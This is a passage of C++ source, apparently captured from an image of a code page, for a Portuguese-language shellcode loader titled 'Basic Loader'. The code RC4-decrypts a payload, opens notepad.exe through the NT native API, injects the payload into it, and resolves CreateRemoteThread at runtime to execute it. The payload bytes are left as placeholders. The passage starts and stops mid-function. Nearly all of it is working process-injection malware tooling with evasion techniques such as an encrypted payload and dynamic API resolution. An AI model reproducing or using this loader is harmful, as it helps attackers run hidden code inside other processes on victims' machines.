 ```cpp
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Falha ao resolver uma ou mais funções da API nativa do NT." << std::endl;
        return 1;
    }

    HANDLE processoAlvo = NULL, threadRemota = NULL;
    PVOID enderecoRemoto = NULL;
    DWORD idProcessoAlvo = 0;

	unsigned char payload[] = { 0x00 };

	unsigned char chaveRC4[] = { 0x00 };

	BOOL DECRYPT = RC4DEC(chaveRC4, static_cast<PBYTE>(payload), sizeof(chaveRC4), sizeof(payload));

    if (!DECRYPT) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Falha na decriptação do payload." << std::endl;
        return -1;
    }

    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cout << R"(
__________               .__         .____                     .___            
\______   \_____    _____|__| ____   |    |    _________     __| _/___________ 
 |    |  _/\__  \  /  ___/  |/ ___\  |    |   /  _ \__  \   / __ |/ __ \_  __ \
 |    |   \ / __ \_\___ \|  \  \___  |    |__(  <_> ) __ \_/ /_/ \  ___/|  | \/
 |______  /(____  /____  >__|\___  > |_______ \____(____  /\____ |\___  >__|   
        \/      \/     \/        \/          \/         \/      \/    \/       
    )" "\n\n" << std::endl;
    SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);

    std::wcout << L"[+] Pressione Enter para localizar o processo alvo." << std::endl;
    std::cin.get();

    if (!ObterHandleProcesso(L"notepad.exe", &idProcessoAlvo, &processoAlvo, NtOpenProcess)) {
        return -1;
    }

    std::wcout << L"[+] Processo encontrado: PID " << idProcessoAlvo << std::endl;
    std::wcout << L"[+] Endereco do payload: " << static_cast<void*>(payload) << std::endl;
    std::wcout << L"[+] Pressione Enter para injetar o payload." << std::endl;
    std::cin.get();

    if (!InjetarPayload(processoAlvo, payload, sizeof(payload), &enderecoRemoto)) {
        return -1;
    }

    std::wcout << L"[+] Endereco remoto apos injecao: " << enderecoRemoto << std::endl;

    HMODULE moduloKernel = GetModuleHandleA(dllKernel);
    if (moduloKernel == NULL) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Erro ao obter o handle para kernel32.dll" << std::endl;
        return -1;
    }

    CriarThreadRemota = (FuncaoThread)GetProcAddress(moduloKernel, nomeFuncaoThread);
    if (CriarThreadRemota == NULL) {
        SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
        std::cerr << "[!] Erro ao localizar a funcao CreateRemoteThread." << std::endl;
        return -1;
```
